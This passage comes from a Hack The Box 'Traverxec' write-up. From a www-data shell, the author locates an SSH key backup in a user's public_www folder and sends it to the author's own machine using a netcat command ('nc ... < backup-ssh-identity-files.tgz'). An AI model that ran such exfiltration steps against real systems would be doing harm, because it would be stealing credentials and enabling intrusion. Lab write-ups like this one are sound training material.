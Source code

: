 Unfortunately it didn't give me the authentication prompt I expected when browsing to the directory, instead responding with a 200 OK and this image:

![davepage](https://opalsec.github.io/assets/images/traverxec/davepage.png)

# Getting User

Out of ideas, I turned to the hackthebox Discord where a user helpfully prompted me to have a look at the config again. 

After a little more prodding I realised that while the "homedirs" parameter specified where the user directories would be, there was an additional directory nested in each user's home folder called public_www that would house content to be displayed on the webserver.

I didn't think to do this initially as david's home directory was locked down to only be accessible by him. The public_www folder, however, wasn't - as long as you went directly to it:

```
www-data@traverxec:/usr/bin$ ls -lah /home/david
ls -lah /home/david
ls: cannot open directory '/home/david': Permission denied
www-data@traverxec:/usr/bin$ ls -lah /home/david/public_www
ls -lah /home/david/public_www
total 16K
drwxr-xr-x 3 david david 4.0K Oct 25 15:45 .
drwx--x--x 5 david david 4.0K Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4.0K Oct 25 17:02 protected-file-area
```

Going into the protected-file-area folder, I found a tar.gz archive. I couldn't figure out the right URI to use to pull the file, so I just used netcat instead by running ```nc -w3 10.10.14.2 8888 < backup-ssh-identity-files.tgz``` on traverxec and the following on my Kali machine:

```
root@playpen:/htb/traverxec# wget http://10.10.10.165/~david/public_www/protected-file-area/backup-ssh-identity-files.tgz
--2020-04-10 20:04:20--  http://10.10.10.165/~david/public_www/protected-file-area/backup-ssh-identity-files.tgz
Connecting to 10.10.10.165:80... connected.
HTTP request sent, awaiting response... 404 Not Found
2020-04-10 20:04:21 ERROR 404: Not Found.

root@playpen:/htb/traverxec# nc -l -p 8888 > backup-ssh-identity-files.tgz
```

Decompressing the archive reveals it contains david's ssh keys:

```
root@playpen:/htb/traverxec# tar -xzvf backup-ssh-identity-files.tgz 
home/david/.ssh/                                          
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa                                    
home/david/.ssh/id_rsa.pub    
```
